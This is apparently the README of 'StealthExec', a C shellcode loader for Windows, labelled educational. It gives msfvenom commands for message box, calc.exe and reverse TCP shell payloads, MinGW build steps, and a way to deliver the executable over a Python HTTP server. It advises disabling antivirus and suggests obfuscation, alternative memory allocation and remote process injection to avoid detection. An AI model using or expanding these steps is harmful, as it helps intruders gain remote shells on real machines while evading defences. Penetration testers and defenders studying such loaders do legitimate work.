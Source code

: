 
# StealthExec - Minimal Shellcode Loader in C

## FOR EDUCATIONAL PURPOSES ONLY

## Objective
StealthExec is a minimal shellcode loader written in C that injects and executes shellcode in a process's own memory space. The goal of this project is to provide a simple yet effective way to load and execute shellcode, primarily for educational and testing purposes in cybersecurity.

## Requirements

- A Linux environment (Kali Linux recommended)
- MinGW installed for cross-compiling Windows executables
- A Windows VM for testing the shellcode execution

### Get Kali:
- [Kali Linux Download](https://www.kali.org/get-kali/#kali-platforms)

### Get a Windows VM:
- [Windows VM Download](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

### Install MinGW on Kali:
```bash
sudo apt-get install build-essential mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Shellcode Examples Included in StealthExec

### 1. MessageBox Shellcode (Windows)
This shellcode generates a message box with a customizable title and text. It was generated using **msfvenom** with the following command:
```bash
msfvenom -p windows/x64/messagebox TEXT="Shellcode Executed!" TITLE="StealthExec" -f c
```
This is useful for testing shellcode execution without performing any harmful actions. The message box will appear on the screen when the shellcode is executed.

### 2. Reverse Shell Shellcode (Windows)
This shellcode opens a reverse shell on the target machine. To generate this shellcode, use **msfvenom** with the appropriate IP and port:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c
```
Replace `<Your_IP>` and `<Your_Port>` with your listener IP address and port. This type of shellcode is often used in penetration testing to gain control of a compromised system.

### 3. Calc.exe Shellcode (Windows)
This shellcode launches the `calc.exe` application (the Windows calculator) as a harmless example of process execution via shellcode. It demonstrates how shellcode can trigger actions on the host system. The **msfvenom** command for generating this shellcode is:
```bash
msfvenom -p windows/exec CMD=calc.exe -f c
```
This shellcode is useful for testing process injection and execution without malicious intent.

## How to Use

### Step 1: Generate Shellcode
You can generate your own shellcode using **msfvenom** or use the examples provided in the `stealthexec_with_examples.c` script.

### Step 2: Compile StealthExec
Compile the C code using the **MinGW** compiler:
```bash
x86_64-w64-mingw32-gcc stealthexec_with_examples.c -o stealthexec.exe
```
This will generate a Windows executable (`stealthexec.exe`) that can be run on a Windows system.

### Step 3: Test the Executable
To test the execution, you can transfer the compiled executable to your Windows system using a Python HTTP server:
```bash
python3 -m http.server
```
On the Windows machine, download and run the executable.

### Step 4: Debugging and Antivirus
Since StealthExec uses raw shellcode, it’s likely to be flagged by antivirus software. Ensure that antivirus software is disabled or set an exception for the testing phase.

## Advanced Techniques

### Enhancements:
1. **Obfuscation**: You can implement shellcode obfuscation to bypass antivirus detection.
2. **Dynamic Memory Management**: Instead of using `VirtualAlloc`, experiment with alternative memory allocation techniques to reduce detection.
3. **Process Injection**: Implement process injection techniques to load shellcode into remote processes for more advanced attacks.


